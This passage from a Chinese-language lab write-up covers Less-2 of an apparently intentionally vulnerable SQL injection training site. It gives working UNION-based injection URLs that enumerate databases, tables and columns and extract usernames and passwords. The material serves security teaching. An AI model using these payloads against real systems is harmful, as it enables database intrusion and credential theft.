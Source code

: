 ![](assets/markdown-img-paste-2018041717062367.png)

这样一个流程就走完了

### Less-2-GET - Error based - Intiger based

这个是既没有`'`、`"`、`')`、`")`包围的纯整数型查询  

`$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";`

`http://10.101.177.100:9990/Less-2/?id=1'`

![](assets/markdown-img-paste-2018041717333198.png)

`http://10.101.177.100:9990/Less-2/?id=1 order by 4--+`

![](assets/markdown-img-paste-20180417174030311.png)

后面步骤都是一样的  

```
数据库
http://10.101.177.100:9990/Less-2/?id=-1 union select 1,2,group_concat(schema_name) from information_schema.schemata--+
表
http://10.101.177.100:9990/Less-2/?id=-1 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema="security"--+
列
http://10.101.177.100:9990/Less-2/?id=-1 union select 1,2,group_concat(column_name) from information_schema.columns where table_name="users"--+
数据
http://10.101.177.100:9990/Less-2/?id=-1%20union%20select%201,username,password%20from%20users%20limit%201,2--+
```
